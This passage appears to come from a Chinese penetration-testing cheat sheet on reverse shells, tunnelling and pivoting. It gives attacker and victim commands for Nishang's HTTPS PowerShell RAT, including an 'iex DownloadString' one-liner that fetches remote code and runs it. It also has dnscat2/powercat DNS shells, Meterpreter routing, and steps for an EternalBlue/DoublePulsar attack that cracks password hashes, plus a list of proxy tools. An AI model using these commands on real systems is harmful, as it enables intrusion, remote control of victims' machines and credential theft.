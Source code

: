 
5.HTTPS

https://github.com/samratashok/nishang/blob/bfeabd2e043dfef6392e8a930eb1d7a04392af36/Shells/Invoke-PoshRatHttps.ps1

需要Attacker以管理员身份运行,nishang作者最新的脚本会出现错误

    Attacker:
        PS F:\Shells> . .\Invoke-PoshRatHttps.ps1
        PS F:\Shells> Invoke-PoshRatHttps -IPAddress 192.168.52.1 -Port 80 -SSLPort 443
    Victim:
        PS C:\> iex (New-Object Net.WebClient).DownloadString("http://192.168.52.1/connect")


6.DNS shell 
dnscat2 : https://github.com/iagox86/dnscat2)
powercat: https://github.com/besimorhino/powercat)

dnscat2讲解
https://04z.net/2017/07/13/DNS-Tunnel/

    Attacker:
        root@kali:~# ruby dnscat2.rb shellcome.com
    Victim:
        PS F:\Shells> . .\powercat.ps1
        PS F:\Shells> powercat -c 192.168.52.131 -v -dns shellcome.com -ep


## 0x13 metasploit

    meterpreter> run autoroute -s 192.168.1.0/24
    meterpreter> use auxiliary/server/socks4a
    msf> route add 192.168.1.0 255.255.255.0 192.168.1.1 [sessionid]


## 0x14 防火墙开启的ms17-010
例如:详细查找ms17-010
https://packetstormsecurity.com/search/?q=MS17-010

    1、上传EarthWorm转发端口445到指定端口,然后利用eternalblue+Doublepulsar溢出目标8888端口，成功回弹系统权限的shell
    2、由于防火墙限制（也可能其他），直接添加管理员始终不能成功
    3、上传工具，获取管理员密码hash破解，成功登陆3389
    ./ew -s lcx_tran -l 8888 -f 127.0.0.1-g 445


## 0x15 Socks代理工具
re. 使用方法	http://bobao.360.cn/learning/detail/3502.html

    Earthworm			http://rootkiter.com/EarthWorm
    xsocks			https://github.com/5loyd/xsocks
    ShadowSOCKS（影梭）	https://github.com/shadowSOCKS
    SocksCap64		http://www.sockscap64.com/
    proxychains		http://proxychains.sourceforge.net/
	
from :
https://04z.net/2017/07/09/AD-Attacks-Forwarding/

